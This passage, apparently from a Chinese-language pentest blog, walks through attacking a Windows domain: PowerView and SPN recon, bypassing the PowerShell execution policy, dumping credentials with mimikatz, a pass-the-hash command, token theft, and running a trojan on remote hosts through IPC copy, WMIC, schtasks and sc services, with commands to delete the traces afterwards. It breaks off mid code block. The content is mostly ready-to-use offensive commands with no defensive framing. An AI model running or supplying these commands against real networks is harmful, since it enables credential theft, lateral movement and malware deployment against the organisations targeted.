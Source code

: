还可以通过powershell进行信息搜集,收集的信息包括域控机器，网段信息，域内服务列表。使用powershell的话，首先要绕过默认的安全策略，具体看文章[https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

```PowerSploit\Recon\PowerView.ps1 ```

powerview Get-NetDomainController  收集域控信息
具体的可以看看powerview的帮助文件
域内服务信息收集，在域环境中其实无需做端口扫描。直接通过SPN进行信息收集，具体脚本
```
PowerShell-AD-Recon/blob/master/Discover-PSInterestingServices.ps1
```
![](http://ogmho3r7t.bkt.clouddn.com/2017-03-20-14816932370016.jpg)

#### 0x02域内权限获取

1.日常规服务，通过前面收集的服务信息，针对性跑这些服务。其中跑sqlserver弱口令比较好，跑出来了就可以执行命令。

2.抓密码 拿到一台域服务器后，首先加载mimikatz的powershell脚本将内置的信息抓取一遍，如果域管理员登录过的话，直接就获取到了域管权限。但是在windows2012后mimikatz抓不到明文了(包括打了KB2871997这个补丁的机器)，只能通过修改服务器上面的一些设置来获取，有完整的powershell利用脚本。
[https://github.com/3gstudent/Dump-Clear-Password-after-KB2871997-installed](https://github.com/3gstudent/Dump-Clear-Password-after-KB2871997-installed)

3.pass the hash 抓到密码破不出来就只能pth了，可以使用mimakatz

```
mimikatz # sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a
```

但是打了KB2871997这个补丁后常规的pth不能用了，只能传递administrator这个账号(sid=500),但是可以使用mimikatz任意传递aes256

4.steal token
当你获取了本地计算机的system权限后，如果这台机器上有域用户跑的进程，就直接可以窃取域账号的token，然后从本地用户组跨入域环境。如果这台机器上有域管的开的进程，那么直接steal token后就可以登录域控了。
![](http://ogmho3r7t.bkt.clouddn.com/2017-03-20-14816940742419.jpg)

5.远程执行命令方法
```
copy muma.exe \\host\c$\windows\temp\foobar.exe ##IPC拷贝木马文件
```

WMIC远程运行命令
```

wmic /node:host /user:administrator /p 密码 process call create “c:\windows\temp\foobar.exe”
```
powershell remoting 执行命令

schtasks计划任务远程运行

```
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe
/sc once /st 00:00 /S host /RU System schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host ##清除schtasks
```

SC添加服务远程运行命令
```
sc \\host create foobar binpath=“c:\windows\temp\foobar.exe” ##新建服务,指向拷贝的木马路径
sc \\host start foobar ##启动建立的服务
sc \\host delete foobar ##完事后删除服务
